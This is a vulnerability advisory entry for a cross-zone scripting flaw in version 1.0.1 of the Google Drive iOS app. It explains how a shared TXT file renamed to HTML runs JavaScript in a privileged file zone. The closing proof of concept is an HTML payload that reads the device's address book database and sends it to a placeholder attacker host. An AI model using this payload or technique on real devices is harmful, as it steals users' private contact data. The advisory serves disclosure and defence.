 ```yaml
---
layout: vuln
credit:
    - roi
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2012-10-18' 
alephid: ALEPH-2012000
date: '2012-10-18'
title: 'Google Drive iOS App Cross-Zone Scripting'
severity: moderate
product:
    - Google Drive App for iOS    
vulnerable: 
    - 1.0.1
references:
    - src: Paper
      url: http://blog.watchfire.com/files/googledriveadvisory.pdf
---
```

A significant feature of the Google Drive app is allowing a user to view either his files or files shared with him. The Google Drive app achieves this by using an embedded browser (using the UIWebView class) to display the contents of these files. Although many file types can be viewed using the embedded browser, some file types cannot - possibly for security reasons. For instance, when a user attempts to view the contents of a file with a TXT extension the embedded browser displays the contents of that file. However, if the user attempts to view an HTML file, the Google Drive application displays the error message: “Unable to open file”, and the HTML file is not rendered. 

To circumvent this restriction on rendering HTML files, an attacker can:
1. Share an innocuous file with the victim. An empty TXT file will suffice.
2. Trick the victim into viewing that file, by going to the “Shared with me” screen in the Google Drive app.
3. Change the shared file extension from TXT to HTML, and then insert maliciously crafted HTML/JavaScript content.
4. Convince the victim to view the TXT file again (without refreshing the “Shared with me” view).

Since the Google Drive app still “believes” the file to be a TXT file, it renders it using the embedded browser.
However, the UIWebView now renders the newly downloaded and locally stored HTML content. This has two side effects:
1.JavaScript code contained in the HTML file is automatically executed.
2. The HTML content is loaded in a privileged “file” zone, as opposed to an unprivileged HTTP location.
Execution of malicious JavaScript code allows an attacker to steal potentially valuable information from the
DOM of the embedded browser, an attack dubbed “Cross-Application Scripting” (XAS). However, because Google Drive loads the HTML file from a privileged zone this malicious JavaScript can also access the file system with the same permissions as the Google Drive app.

## Proof-of-Concept

The following PoC illustrates a malicious HTML file that steals the user’s iPhone/iPad address book:
```html
<html>
<head>
    <title>Malicious HTML File!</title>
</head>
<body>
    <script>
        function readGoogleDriveFileiOS(fileName) {
            // Create a new XHR Object
            x = new XMLHttpRequest();
            // When file content is available, send it back
            x.onreadystatechange = function () {
                if (x.readyState == 4) {
                    x2 = new XMLHttpRequest();
                    x2.onreadystatechange = function () {};
                    // x.responseText contains the content of fileName
                    // which we’ll send back to ATTACK_SITE
                    x2.open("GET", "http://ATTACK_SITE/?file_content=" +
                    encodeURI(x.responseText));
                    x2.send();
                }
            }
            // Try to read the content of the specified file
            x.open("GET", fileName);
            x.send();
        };
        // Reads the user’s address book
        readGoogleDriveFileiOS("file:///var/mobile/Library/AddressBook/
        AddressBook.sqlitedb");
    </script>
    <h1>This malicious file will now leak the user’s address book!</h1>
    </body>
</html>
```
